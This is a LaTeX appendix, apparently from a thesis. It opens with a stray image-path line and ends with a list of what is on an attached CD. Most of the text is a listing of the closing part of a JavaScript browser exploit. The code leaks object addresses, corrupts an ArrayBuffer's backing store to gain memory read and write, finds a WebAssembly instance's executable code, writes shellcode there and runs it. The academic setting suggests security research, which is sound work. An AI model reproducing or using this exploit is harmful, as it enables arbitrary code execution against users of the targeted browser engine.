 \documentclass[a4paper,twoside,12pt]{book}
\begin{document}
\begin{appendices}
\begin{lstlisting}
        rwarr[4] = i2f(fLow(rwarr[4]), hi);
        rwarr[5] = i2f(low, fHi(rwarr[5]));
    }
    function leakObjLow(o) {
        corrupt_buff.slot = o;
        return (fLow(rwarr[9]) - 1);
    }
    let corrupt_view = new DataView(corrupt_buff);
    let corrupt_buffer_ptr_low = leakObjLow(corrupt_buff);
    let idx0Addr = corrupt_buffer_ptr_low - 0x10;
    let baseAddr = (corrupt_buffer_ptr_low & 0xffff0000) 
		- ((corrupt_buffer_ptr_low & 0xffff0000) % 0x40000) 
		+ 0x40000;
    let delta = baseAddr + 0x1c - idx0Addr;
    if ((delta % 8) == 0) {
        let baseIdx = delta / 8;
        this.base = fLow(rwarr[baseIdx]);
    } else {
        let baseIdx = ((delta - (delta % 8)) / 8);
        this.base = fHi(rwarr[baseIdx]);
    }
    let wasmInsAddr = leakObjLow(wasmInstance);
    setbackingStore(wasmInsAddr, this.base);
    let code_entry = corrupt_view.getFloat64(13 * 8, true);
    setbackingStore(fLow(code_entry), fHi(code_entry));
    for (let i = 0; i < shellcode.length; i++) {
        corrupt_view.setUint8(i, shellcode[i]);
    }
    main();
</script>
\end{lstlisting}
 

\chapter*{Contents of attached CD}

The thesis is accompanied by a CD containing:
\begin{itemize}
\item thesis (\texttt{pdf} file),
\item source code of applications,
\item data sets used in experiments.
\end{itemize}

\listoffigures
\listoftables
	
\end{appendices}
\end{document}
